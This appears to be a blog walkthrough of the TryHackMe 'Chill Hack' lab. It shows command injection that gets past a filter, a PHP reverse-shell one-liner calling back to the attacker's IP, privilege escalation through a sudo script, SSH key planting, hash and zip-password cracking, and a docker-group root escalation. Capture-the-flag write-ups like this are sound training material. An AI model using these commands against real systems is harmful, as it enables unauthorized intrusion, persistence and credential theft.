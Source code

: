 ```yaml
---
layout: post
title: Tryhackme - Chill Hack
date: 2020-12-13 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,ftp,gtfobins]
---
```


---
<p>Chill Hack is a beginner level Tryhackme room. It was fun doing this room since there are multiple ways to get to the credentials. The final objective is to get the user and root flag. In this post I'll be explaining how I cleared this room.</p>
<br>
![cover_image](/assets/img/tryhackme/chillhack/1.png)

**Author** | Anurodh
**Description** | This room provides the real world pentesting challenges.

Deploy the VM and let's go.

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/chillhack/nmap_scan.png)
<br>
From the nmap scan we can see the ports ```21/ftp```, ```22/ssh```, ```80/http``` are open. ```Anonymous``` login is allowed in ```ftp``` service.

I logged into the ftp server and found a text file. I downloaded it using the ```get file-name``` command. 
<br>
![ftp_server](/assets/img/tryhackme/chillhack/2.png)
<br>
I read the file and just noted it as a hint and switched to enumerate the http service.
<br>
![home_page](/assets/img/tryhackme/chillhack/3.png)
<br>
Use gobuster to bruteforce the hidden directories.
<br>
![gobster_1](/assets/img/tryhackme/chillhack/4.png)
<br>
I visited the most interesting directory ```/secret``` and I found only a input box with the placeholder ```Command```. So, I gave ```ls``` to check if it really executes the command and the site changes to this background image.
<br>
![alert_page](/assets/img/tryhackme/chillhack/5.png)
<br>
Then I tried ```whoami``` and the page successfully returned the output.
<br>
![whoami_command](/assets/img/tryhackme/chillhack/6.png)
<br>
So, I used this to bypass without trigerring the alert.
<br>
<pre>whoami;ls -la</pre>
<br>
![long_listing](/assets/img/tryhackme/chillhack/7.png)
<br>
Note that ```; (semicolon)``` in linux is used to split one command from another. 


## <ins>Reverse Shell</ins>
---
Since that worked, I grabbed the php reverse shell payload and used it with ```whoami``` to bypass the alert. Remember to open a netcat listener in your local machine before executing the payload.
<br>
<pre>whoami;php -r '$sock=fsockopen("your-vpn-ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'</pre>
<br>
![reverse_shell1](/assets/img/tryhackme/chillhack/8.png)
<br>

## <ins>User flag</ins>
---
I used ```sudo -l``` to list the files that can be run as other users.
<br>
![sudo_list](/assets/img/tryhackme/chillhack/9.png)
<br>
I read the file and found a way to gain shell access for the user ```apaar```.
<br>
![helpline_cat](/assets/img/tryhackme/chillhack/11.png)
<br>
Take a look at the second input ```$msg```. The code says that anything we put in the variable ```msg``` will be dumped into ```/dev/null``` which is like a blackhole...that is we cannot retrieve anything that is put into it. So, we can spawn a shell before it dumps into the ```/dev/null```.  
<br>
First run the file as the user ```apaar```.
<br>
<pre>sudo -u apaar ./.helpline.sh</pre>
<br>
Then, give a arbitary input for the first variable. Give ```/bin/bash``` as second input. And finally use ```python pty``` to get a stable shell.
<br>
![shell_apaar](/assets/img/tryhackme/chillhack/12.png)
<br>
The ```user flag``` is in the ```home``` directory of the user ```apaar``` in file named ```local.txt```.


## <ins>Getting user anurodh</ins>
---
I found more than one way to get to the credentials of the user ```anurodh```. 

### <ins>Method 1</ins>
---
After running ```linpeas.sh``` I found some ports running which are accessible only by the ```localhost```.
<br>
![linpeas_port](/assets/img/tryhackme/chillhack/15.png)
<br>
I generated a ```ssh key pair``` in my local machine.
<br>
<pre>ssh-keygen</pre>
<br>
Enter the path for it to generate new ```ssh key pair``` in the local machine. Copy the contents of the ```public key (id_rsa.pub)``` and in the remote machine append it to the ```/home/apaar/.ssh/authorized_keys``` file.
<br>
<pre>echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys</pre>
<br>
Now we can ssh into the machine using the private key ```id_rsa```.
<br>
<pre>ssh -L 9001:127.0.0.1:9001 apaar@10.10.233.203 -i id_rsa</pre>
<br>
Here, we are basically tunnelling the port ```9001``` from the remote machine into our local machine ```127.0.0.1:9001```.
<br>
![ssh_tunnel](/assets/img/tryhackme/chillhack/17.png)
<br>
Now we can access that service through our browser using ```127.0.0.1:9001```.
<br>
![login_page](/assets/img/tryhackme/chillhack/18.png)
<br>


#### <ins>Sub-Method 1</ins>
---
I tried some common credentials but had no luck with it. After searching through the files for a bit I found the credentials for ```mysql``` in the file ```/var/www/files/index.php```.
<br>
![mysql_creds](/assets/img/tryhackme/chillhack/19.png)
<br>
I connected to the ```mysql service``` from the remote machine.
<br>
<pre>mysql -u root -p</pre>
<br>
Use the ```mysql password``` that we just found. Then I used some commands to finally arrive at the credentials.
<br>
<pre>
SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;
</pre>
<br>
![webportal_credentials](/assets/img/tryhackme/chillhack/22.png)
<br>
I used [crackstation](crackstation.net) to crack the MD5 passwords. Then, I logged into the webportal with the credentials.
<br>
![portal_login](/assets/img/tryhackme/chillhack/24.png)
<br>
Download the image in the page ```/hacker.php```.


#### <ins>Sub-Method 2</ins>
---
Without getting the credentials to the webportal and mysql we can still get to the page ```/hacker.php```. Use ```gobuster``` with the common wordlist.
<br>
<pre>gobuster dir -u http://127.0.0.1:9001/ -w /usr/share/dirb/wordlists/common.txt -x php </pre>
<br>
![gobuster_webportal](/assets/img/tryhackme/chillhack/23.png)
<br>
Download the image in the page ```/hacker.php```.

---
**Before getting the password for the user ```anurodh``` I'll also explain the second method which is wayyy easier than the first one.**


### <ins>Method 2</ins>
---
This is the method that I actually used to clear the room. It was just a coincidence that I saw the ```/files``` directory in the parent directory after I got the reverse shell. I tried using ```python -m SimpleHTTPServer 8080``` to transfer the files but it throwed an error stating that ```python2``` was not installed. Then, I used the ```python3 http server```.
<br>
<pre>python3 -m http.server 8080</pre>
<br>
And I downloaded the contents using browser from my local machine.

After I transferred everything in the ```/files``` directory to my local machine, I analysed it. And finally I got the password for the user ```anurodh```.

---
**Now let's continue from the part where we got the ```.jpg``` file from the ```/files``` directory.**

Use ```steghide``` to extract the contents of the image.
<br>
<pre>steghide --extract -sf hacker.jpg</pre>
<br>

The ```zip file``` is password protected. Use ```fcrackzip``` to bruteforce the password.
<br>
<pre>fcrackzip -u -v -D -p ~/Wordlists/rockyou.txt backup.zip</pre>
<br>
![zip_password](/assets/img/tryhackme/chillhack/26.png)
<br>

The password for the user ```anurodh``` can be found as a base64 encoded string in the inflated ```php``` file. Decode it.
<br>
![pass_base64](/assets/img/tryhackme/chillhack/27.png)
<br>

Change the user to ```anurodh``` using ```su anurodh``` and use the password that we just found.


## <ins>Root flag</ins>
---
After using ```id```, it seems that the user is in the ```docker``` group.
<br>
![id_docker](/assets/img/tryhackme/chillhack/28.png)
<br>
I grabbed the payload to get the shell access to root from ```gtfobins```.
<br>
![gtfo_bins](/assets/img/tryhackme/chillhack/29.png)
<br>
The root flag is in the file named ```proof.txt```.
<br>
![root_flag](/assets/img/tryhackme/chillhack/30.png)
<br>

I had fun doing this room. Hope you had too!!!

That's it folks. Happy hacking!!!
